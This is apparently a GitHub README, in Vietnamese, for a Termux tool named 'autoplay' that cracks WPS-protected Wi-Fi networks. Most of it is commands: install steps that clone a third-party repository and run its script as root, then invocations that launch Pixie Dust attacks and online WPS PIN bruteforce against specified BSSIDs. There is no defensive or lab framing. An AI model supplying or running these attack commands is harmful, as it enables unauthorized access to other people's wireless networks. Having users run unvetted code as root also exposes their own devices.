 # AUTOPLAY
Crack wps wifi


![68747470733a2f2f692e6962622e636f2f4b3734673053432f68756c752e6a7067](https://github.com/user-attachments/assets/d3c0c73f-5a44-4b59-ade1-9e82a0ae8b06)


# Cài Đặt :
* pkg update && pkg upgrade -y
* pkg install root-repo -y
* pip install pycryptodome
* pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
* git clone https://github.com/autoplay2025/Wifi-Pass.git
* cd Wifi-Pass
* chmod +x autoplay.py
* sudo python autoplay.py -i wlan0 -K
# Ghi Chú :
Đầu tiên hãy tắt Wifi.

Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust trên mạng được chỉ định.

sudo python autoplay.py -i wlan0 -K

Bắt đầu tấn công Pixie Dust vào BSSID được chỉ định: sudo python autoplay.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
Khởi chạy WPS bruteforce trực tuyến với nửa đầu mã PIN được chỉ định:
sudo python autoplay.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

#Xử Lí Sự Cố
"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi rồi tắt Wifi.
